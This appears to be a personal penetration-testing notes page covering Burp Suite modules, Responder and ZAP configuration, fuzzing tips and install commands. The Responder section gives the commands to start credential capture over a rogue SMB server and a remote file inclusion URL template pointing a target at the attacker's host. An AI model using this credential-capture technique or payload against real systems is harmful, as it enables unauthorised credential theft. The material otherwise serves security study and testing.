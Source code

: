 # Tools

## <mark style="color:green;">Burp Suite</mark>

* Digital plattform that collects tools for specialiced web penetration testing.
* Framework written in Java that aims to provide a one-stop-shop for web application penetration testing
* Capture and manipulate all of the traffic between an attacker and a webserver
* Can intercept, view, and modify request
* Burp suite has modules that can be added

### **Features**

* **Proxy:** Allows us to intercept and modify requests/responses.
  * _Foxy Proxy:_ Browser Extension for using proxy on Burp
  * The standart IP for connection with Burp is 127.0.0.1 on port 8080
* **Repeater:** Allows us to capture, modify, then resend the same request numerous times. We could craft requests by hand too.
* **Intruder:** Allows us to spray an endpoint with requests.
* **Decoder:** Allows us to transform data, decoding captured information, or encoding a payload.
* **Comparer:** Allows us to compare two pieces of data at either word or byte level.
* **Sequencer:** Help us asses random tokens or other generated data.



## <mark style="color:green;">Responder</mark>

Help in passive obtention of credentials by mounting a SMB server in web

* Configurate file

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf #Installed here by default
```
{% endcode %}

***

* Initialize Responder

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo responder -I $networkinterface
```
{% endcode %}

{% hint style="info" %}
**Note:** If error in any port, set _off_ in the service related to that port in _Responder.conf_ file
{% endhint %}

***

* Make Remote file inclusion at page

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>http://$url/$query?$value=//$myip/somefile
</strong></code></pre>

***



## <mark style="color:green;">ZAP</mark>

* Proxy utility stands for Zed Attack Proxy

### **Features**

* **Contexts:** Delimit the scope of the scanning
* **Spider:** Use spidering to get links in the code of a website
* **Active scan:** Attacks the website to get more information
* **Alerts:** Give vulnerabilities found on the web site
* **Sites:** Shows all the URL spidered with their petitions and vulnerabilities
* **History:** Shows petitions made to the site

### **Configuration and utilities**

* Install _SwitchyOmega_ extension
* Configure server to _localhost_ and save changes
* Go to _adds-on_ tab and from marletplace install: _all release, python scripting, community scripts, custom payloads, json view, jwt support, viewstate_.
* Go to settings HUD deactivate _Using ZAP desktop and welcome message._

### Tips

* Can configure Global Alert Filters to set your own grade for a vulnerability.
* From _History_ you can right click and select _Resend_ to modify a petition made before
* **For fuzzing:**&#x20;
  * Select a part of the request and right-click _Fuzz_&#x20;
  * Select _Payloads_ button, select dictionary file or enter custom words
  * In _Message Proccesor_s tab add a new one for exclude errors that arent meaningful
  * In Global Settings go to _Anti-CSRF cert token_, an add the tokens detected in forms POST petitions
  * When getting 304 responses in _Fuzz->Options_ activate _Follow Redirects_
  * When not getting consistent token handle in _Fuzz->Options_ reduce the threads to 1

### Commands

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install zaproxy
```
{% endcode %}

***

